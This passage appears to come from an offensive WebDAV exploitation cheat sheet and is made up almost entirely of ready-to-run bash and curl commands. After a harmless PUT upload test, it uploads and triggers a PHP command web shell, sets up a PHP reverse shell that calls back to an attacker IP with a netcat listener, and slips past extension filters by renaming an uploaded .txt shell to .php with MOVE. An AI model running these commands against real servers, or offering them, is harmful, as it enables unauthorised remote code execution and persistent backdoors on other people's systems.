 5) Manual write test (PUT) with curl:
```bash
# Create a harmless test file and attempt upload
echo "webdav_test_$(date +%s)" > test.txt
curl -i -T test.txt $URL/test.txt

# Verify retrieval
curl -i $URL/test.txt
```

6) Upload a simple command web shell (PHP example on Apache-like targets):
```bash
# Simple command-exec web shell
cat > shell.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF

# Upload
curl -i -T shell.php $URL/shell.php

# Test execution
curl -s "$URL/shell.php?cmd=id"
```

7) Reverse shell option (PHP):
```bash
# Prepare reverse shell
cp /usr/share/webshells/php/php-reverse-shell.php ./rshell.php
# Set your IP and port
export LHOST=YOUR_ATTACK_IP
export LPORT=4444
sed -i "s/127.0.0.1/$LHOST/" rshell.php
sed -i "s/1234/$LPORT/" rshell.php

# Upload
curl -i -T rshell.php $URL/rshell.php

# Listener
nc -lvnp $LPORT
# Trigger by visiting the URL (browser or curl)
curl -I $URL/rshell.php
```

8) Bypass extension filters with MOVE (upload as .txt then rename to .php/.asp):
```bash
# Upload as .txt
echo "<?php system(\$_GET['cmd']); ?>" > shell.txt
curl -i -T shell.txt $URL/shell.txt

# Rename using MOVE (Destination must be absolute)
curl -i -X MOVE "$URL/shell.txt" -H "Destination: $URL/shell.php"

# Test
curl -s "$URL/shell.php?cmd=whoami"
```
